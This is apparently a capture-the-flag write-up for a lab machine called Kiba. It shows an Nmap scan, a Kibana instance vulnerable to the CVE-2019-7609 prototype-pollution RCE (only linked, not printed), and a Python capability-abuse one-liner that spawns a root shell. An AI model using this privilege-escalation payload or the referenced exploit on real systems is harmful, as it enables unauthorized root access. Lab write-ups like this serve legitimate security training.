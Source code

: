 # Kiba

***
## Difficulty = Easy 

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/21098158-abca-49c1-a339-c52d93a2e670)

***

Running our Nmap scan we have :

```shell
# Nmap 7.94 scan initiated Sun Sep 10 08:46:49 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.10.117.138
Warning: 10.10.117.138 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.117.138
Host is up (0.29s latency).
Not shown: 65428 closed tcp ports (conn-refused), 103 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 10 Sep 2023 12:48:35 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 10 Sep 2023 12:48:26 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 10 Sep 2023 12:48:27 GMT
|_    {"statusCode":404,"error":"Not Found"}

---SNIP---

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 10 08:48:57 2023 -- 1 IP address (1 host up) scanned in 128.36 seconds
```

Port `80/HTTP` doesn't seem to give me what i want, even while performing **directory bruteforcing**, No directory/files where discovered 

![](https://i.imgur.com/PF4IzEG.png)

Port `5044` isn't loading up, but port `5601` gives us a **Kibana** Dashboard page

![](https://i.imgur.com/iDyTi8X.png)

Nice, we can navigate to the **Management** menu to see which version of kibana we are using, these will give us the chance to enumerate more:

![](https://i.imgur.com/7on4p0j.png)

>Cool, we have a **Prototype Pollution** vulnerability that allows attackers to exploit the rules of the JavaScript programming language, by injecting properties into existing JavaScript language construct prototypes, such as Objects to compromise applications in various ways. This could literally lead to **RCE**

Navigate to the **Timelion** menu and follow this [guide](https://github.com/mpgn/CVE-2019-7609) to know more about how the **RCE** took place 

![](https://i.imgur.com/IuZMTZK.png)
![](https://i.imgur.com/YfAX3WQ.png)

### Privilege Escalation

Running `getcap -r / 2>/dev/null` in other to check for files with Capabilities we can see that a python binary has been stored on the user **Kiba's** home directory, we can use this to get `root`

![](https://i.imgur.com/D6eCjOA.png)

Using this payload we can get elevated privileges as `root` 🐉

```shell
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![](https://i.imgur.com/zcmWUci.png)

Happy weekend and Have fun 

![](https://media.giphy.com/media/3o7527WMiaRJmrWMTe/giphy-downsized-large.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

